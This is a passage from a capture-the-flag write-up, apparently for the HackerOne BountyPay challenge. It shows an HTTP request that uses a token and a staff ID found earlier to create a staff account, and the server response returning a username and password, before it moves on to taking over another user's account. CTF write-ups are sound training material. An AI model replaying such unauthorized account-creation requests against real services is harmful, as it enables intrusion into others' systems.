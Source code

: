 Now you might remember that in in the reconnaissance phase we found the `staff_id` of a new employee named Sandra. Let's see what happens when we send this `staff_id:`

```
http -f post https://api.bountypay.h1ctf.com/api/staff \
X-Token:8e9998ee3137ca9ade8f372739f062c1 \
staff_id=STF:8FJ3KFISL3
```

```HTTP
HTTP/1.1 201 Created
Connection: keep-alive
Content-Type: application/json
Date: Wed, 03 Jun 2020 21:28:01 GMT
Server: nginx/1.14.0 (Ubuntu)
Transfer-Encoding: chunked

{
    "description": "Staff Member Account Created",
    "password": "s%3D8qB8zEpMnc*xsz7Yp5",
    "username": "sandra.allison"
}
```

Nice we now have an account for the Staff application !

### Getting Mårten Mickos account

Once we are logged in we can see 4 differents tabs:

* Home
* Support Tickets
* Profile
* Logout

![Homepage](<h12006-ctf-writeup/Screenshot 2020-06-03 at 23.33.11.png>){ loading=lazy }
